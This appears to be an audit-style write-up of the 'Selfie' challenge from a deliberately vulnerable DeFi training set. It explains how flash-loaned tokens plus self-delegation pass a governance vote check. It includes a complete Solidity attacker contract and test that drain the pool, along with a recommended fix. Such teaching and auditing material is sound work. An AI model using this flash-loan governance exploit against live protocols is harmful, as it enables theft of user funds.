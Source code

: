 ## High

### [H-1] Improper Snapshot Utilization in Voting Logic Allows Flash Loan Exploitation

**Description:** The `queueAction` function in the `SimpleGovernance` contract relies on the `getVotes` function to check if a user has sufficient voting power. However, `getVotes` uses the latest delegation checkpoint, which is susceptible to flash loan manipulation. This allows attackers to temporarily inflate their voting power by borrowing tokens, delegating votes to themselves, and queuing unauthorized governance actions.

Snapshot-based mechanisms, like getPastVotes, prevent this issue by referencing voting power at a specific block, ensuring that voting decisions reflect genuine token holdings over time rather than temporary manipulations.

```javascript
function queueAction(address target, uint128 value, bytes calldata data) external returns (uint256 actionId) {
    if (!_hasEnoughVotes(msg.sender)) {
        revert NotEnoughVotes(msg.sender); // Ensure sufficient voting power
    }

    // Logic for queuing the action...

    return actionId;
}
```

```javascript
function _hasEnoughVotes(address who) private view returns (bool) {
    uint256 balance = _votingToken.getVotes(who);
    uint256 halfTotalSupply = _votingToken.totalSupply() / 2;
    return balance > halfTotalSupply;
}
```

```javascript
function getVotes(address account) public view virtual returns (uint256) {
    return _delegateCheckpoints[account].latest();
}
```


**Impact:** By default, token balance does not account for voting power. This makes transfers cheaper. The downside is that it requires users to delegate to themselves in order to activate checkpoints and have their voting power tracked. So a user can take flashloan, activate a checkpoint by delegating to themselves, then call the `queueAction` successfully to withdraw funds from `SelfiePool::emergencyExit`

The exploit undermines the protocol’s governance integrity by allowing attackers to bypass proper voting procedures. This can lead to unauthorized execution of critical actions, such as draining funds or modifying core protocol parameters, posing a severe risk to stakeholders.

**Proof of Concept:** 

1. Create an attacker contract that inherits `IERC3156FlashBorrower`
2. Call pool flashloan function from the attacker contract to borrow tokens
3. The previous line calls `onFlashLoan` and delegates votes using the tokens borrowed to attacker contract
4. It calls `queueAction` to queue `SelfiePool::emergencyExit` as an action to be performed on the `SelfiePool`
5. The action delay time passes and `executeAction` is called which sends all the tokens to the attacker contract.
6. `attacker::withdraw` sends all the tokens to the recovery address

**Proof of Code:**

<details>
<summary>Code</summary>

Place the following into `Selfie.t.sol`

```javascript
function test_selfie() public checkSolvedByPlayer {
    Attacker attacker = new Attacker(governance, pool, token); //create attacker contract
    attacker.attack(); //call pool flashloan function
    vm.warp(block.timestamp + 2 days); //warp time by 2 days
    vm.roll(block.number + 3); //roll block by 3
    attacker.executeAction(1); //execute action
    attacker.withdraw(recovery); //send tokens to recovery address
}
```

And use this contract

```javascript
//SPDX-License-Identifier: MIT

pragma solidity =0.8.25;

import {IERC3156FlashBorrower} from "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";
import {DamnValuableVotes} from "./DamnValuableVotes.sol";
import {SimpleGovernance} from "./SimpleGovernance.sol";
import {SelfiePool} from "./SelfiePool.sol";

contract Attacker is IERC3156FlashBorrower {
    SimpleGovernance public governance;
    SelfiePool public selfiePool;
    DamnValuableVotes private _votingToken;

    bytes32 private constant CALLBACK_SUCCESS = keccak256("ERC3156FlashBorrower.onFlashLoan");
    bytes private CALLDATA = abi.encodeWithSignature("emergencyExit(address)",address(this));

    constructor(SimpleGovernance _governance, SelfiePool _selfiePool,DamnValuableVotes _token) {
        governance = _governance;
        selfiePool = _selfiePool;
        _votingToken = _token;
    }

    function attack() public {
        selfiePool.flashLoan(this, address(_votingToken), selfiePool.maxFlashLoan(address(_votingToken)), "");
    }

    function onFlashLoan(address, address, uint256, uint256, bytes calldata) external returns (bytes32) {
        _votingToken.delegate(address(this));
        governance.queueAction(address(selfiePool),0,CALLDATA);
        _votingToken.approve(address(selfiePool),_votingToken.balanceOf(address(this)));
        return CALLBACK_SUCCESS;
    }

    function executeAction(uint256 actionId) external {
        governance.executeAction(actionId);
    }

    function withdraw(address _recovery) public {
        _votingToken.transfer(_recovery, _votingToken.balanceOf(address(this)));
    }
}
```

</details>

**Recommended Mitigation:** Replace `getVotes` with `getPastVotes` in the `_hasEnoughVotes` function. The `getPastVotes` function ensures that voting power is evaluated based on genuine holdings at the snapshot block, preventing flash loan exploitation.
